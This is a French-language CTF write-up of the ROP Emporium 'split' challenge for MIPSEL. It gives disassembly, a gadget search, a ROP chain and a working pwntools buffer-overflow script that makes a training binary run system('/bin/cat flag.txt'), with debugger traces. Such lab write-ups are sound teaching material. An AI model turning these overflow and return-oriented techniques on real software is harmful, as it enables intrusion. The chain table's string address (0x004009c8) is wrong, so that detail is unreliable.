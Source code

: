 ```yaml
---
Title: Ropemporium mipsel split
Date: 2023-07-02
Tags: [linux, python, ROP, mipsel, ropemporium, write-up]
Categories: [tutorial]
Author: cdpointpoint
Draft: False
---
```



# split MIPSEL

## Introduction.

Dans ce second exercice on doit passer une argument à la fonction appelée.
L'argument est présent dans le programme


Execution du programme avec qemu

ropemporium/mipsel/split$ qemu-mipsel split_mipsel
split by ROP Emporium
MIPS

Contriving a reason to ask user for data...
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thank you!
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Erreur de segmentation

## Analyse

Ce gadget permet de charger t9 et a0 avec le contenu de la pile et appeller t9.


Le programme contien aussi la fonction usefulFunction qui appelle system("/bin/ls").

    [0x00400a20]> s sym.usefulFunction
    [0x004009c8]> pdf
    ┌ 84: sym.usefulFunction (int32_t arg1, int32_t arg_10h);
    │           ; arg int32_t arg_10h @ fp+0x10
    │           ; var int32_t var_10h @ sp+0x10
    │           ; var int32_t var_18h @ sp+0x18
    │           ; var int32_t var_1ch @ sp+0x1c
    │           ; arg int32_t arg1 @ a0
    │           0x004009c8      e0ffbd27       addiu sp, sp, -0x20
    │           0x004009cc      1c00bfaf       sw ra, (var_1ch)
    │           0x004009d0      1800beaf       sw fp, (var_18h)
    │           0x004009d4      25f0a003       move fp, sp
    │           0x004009d8      42001c3c       lui gp, 0x42                ; 'B'
    │           0x004009dc      30909c27       addiu gp, gp, -0x6fd0
    │           0x004009e0      1000bcaf       sw gp, (var_10h)
    │           0x004009e4      4000023c       lui v0, 0x40                ; '@'
    │           0x004009e8      880c4424       addiu a0, v0, 0xc88         ; 0x400c88 ; "/bin/ls" ; arg1 ; str._bin_ls
    │===>       0x004009ec      5480828f       lw v0, -sym.imp.system(gp)  ; [0x411084:4]=0x400b70 sym.imp.system
    │           0x004009f0      25c84000       move t9, v0
    │           0x004009f4      09f82003       jalr t9
    │           0x004009f8      00000000       nop
    │           0x004009fc      1000dc8f       lw gp, (var_10h)
    │           0x00400a00      00000000       nop
    │           0x00400a04      25e8c003       move sp, fp
    │           0x00400a08      1c00bf8f       lw ra, (var_1ch)
    │           0x00400a0c      1800be8f       lw fp, (var_18h)
    │           0x00400a10      2000bd27       addiu sp, sp, 0x20
    │           0x00400a14      0800e003       jr ra
    └           0x00400a18      00000000       nop

La chaine de caractère utile est disponible dans le code.

[0x004009c8]> ps  @obj.usefulString
/bin/cat flag.txt

## Construction de l'attaque.

Notre objectif va être d'appeller la fonction system en appellant l'adresse 0x004009ec avec en paramètre l'adresse la la chaine "/bin/cat flag.txt".

Pour passer le paramêtre il nous faut charger le registre a0 avec l'adresse 0x004009c8.

### Recherche de gadgets
Gadgets présents dans le programme :


    [0x00400a20]> pd 10
            ;-- usefulGadgets:
            0x00400a20      0800a48f       lw a0, 8(sp)
            0x00400a24      0400b98f       lw t9, 4(sp)
            0x00400a28      09f82003       jalr t9
            0x00400a2c      00000000       nop

Ca gadget pourrait être trouvé avec ROPgadget en recherchant le moyen de charge $0 :

    mipsel/split$ grep "lw \$a0" ropgadgets.txt
    0x00400a10 : addiu $sp, $sp, 0x20 ; jr $ra ; nop ; nop ; lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop
    0x00400a14 : jr $ra ; nop ; nop ; lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop
    0x00400a20 : lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop
    0x00400a0c : lw $fp, 0x18($sp) ; addiu $sp, $sp, 0x20 ; jr $ra ; nop ; nop ; lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop
    0x00400a08 : lw $ra, 0x1c($sp) ; lw $fp, 0x18($sp) ; addiu $sp, $sp, 0x20 ; jr $ra ; nop ; nop ; lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop
    0x00400a04 : move $sp, $fp ; lw $ra, 0x1c($sp) ; lw $fp, 0x18($sp) ; addiu $sp, $sp, 0x20 ; jr $ra ; nop ; nop ; lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop
    0x00400a1c : nop ; lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop
    0x00400a18 : nop ; nop ; lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop

On a bien notre gadget en 0x00400a20.


### La ropchaine

| ROP entry | comment |
| ----------- | ------- |
| 0x00400a20 | lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop |
| 0x004009ec | appel system |
| 0x004009c8 | @ /bin/cat flag.txt |


## Exploitation

### Script python

``` python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# Set up pwntools for the correct architecture
elf = context.binary = ELF('split_mipsel')

usefulString = elf.symbols["usefulString"]
usefulFunction = elf.symbols["usefulFunction"]

gs='''
b *pwnme+204
c
'''

g_lwa0t9 = 0x400a20

if len(sys.argv)>1 and sys.argv[1] == "-d":
    io = gdb.debug([elf.path],gdbscript=gs)
else:
    io = process([elf.path])


time.sleep(.5)


io.recvuntil(b"> ")

system = elf.got['system']

log.info(f"{usefulString=:x}")
system = usefulFunction+36

PL=0x24*b"A"+p32(g_lwa0t9)+p32(0)+p32(system)+p32(usefulString)
io.sendline(PL)
io.interactive()

```
### Execution

Point d'arret en fin de pwnme

    ─────────────────────────────────────────────────────────── code:mips:MIPS32 ────
        0x4009b4 <pwnme+192>      lw     ra, 60(sp)
        0x4009b8 <pwnme+196>      lw     s8, 56(sp)
        0x4009bc <pwnme+200>      addiu  sp, sp, 64
    →   0x4009c0 <pwnme+204>      jr     ra
    ↳    0x400a20 <usefulGadgets+0> lw     a0, 8(sp)
            0x400a24 <usefulGadgets+4> lw     t9, 4(sp)
            0x400a28 <usefulGadgets+8> jalr   t9
            0x400a2c <usefulGadgets+12> nop
            0x400a30 <__libc_csu_init+0> lui    gp, 0x2
            0x400a34 <__libc_csu_init+4> addiu  gp, gp, -31232

    gef➤ i r
            zero       at       v0       v1       a0       a1       a2       a3
    R0   00000000 00000001 0000000b ffffffff 3fface2c ffffffff 00000001 00000000
                t0       t1       t2       t3       t4       t5       t6       t7
    R8   00000008 000005f7 3ffc7860 3ffff300 3fe25070 00000000 3fe1b780 0000000c
                s0       s1       s2       s3       s4       s5       s6       s7
    R16  00000000 00400a30 00000000 00000000 00000000 00000000 3ffff300 00000000
                t8       t9       k0       k1       gp       sp       s8       ra
    R24  00000000 3fe95af0 00000000 00000000 00419030 40800320 41414141 00400a20
                sr       lo       hi      bad    cause       pc
        24000010 001f8de0 000001a1 00000000 00000000 004009c0
            fsr      fir
        00000000 00739300


    gef➤  i r a0
    a0: 0x411010

    gef➤  ni

        0x400a1c                  nop
        0x400a20 <usefulGadgets+0> lw     a0, 8(sp)
        0x400a24 <usefulGadgets+4> lw     t9, 4(sp)
    →   0x400a28 <usefulGadgets+8> jalr   t9
        0x400a2c <usefulGadgets+12> nop

    gef➤  i r $a0 $t9
    a0: 0x411010
    t9: 0x4009ec

    gef➤  si
        0x4009e0 <usefulFunction+24> sw     gp, 16(sp)
        0x4009e4 <usefulFunction+28> lui    v0, 0x40
        0x4009e8 <usefulFunction+32> addiu  a0, v0, 3208
    →   0x4009ec <usefulFunction+36> lw     v0, -32684(gp)

On a appelle bien l'adresse attendue.

    gef➤  continue


Sur le'ecran d'appel du programme :

    ROPE{a_placeholder_32byte_flag!}








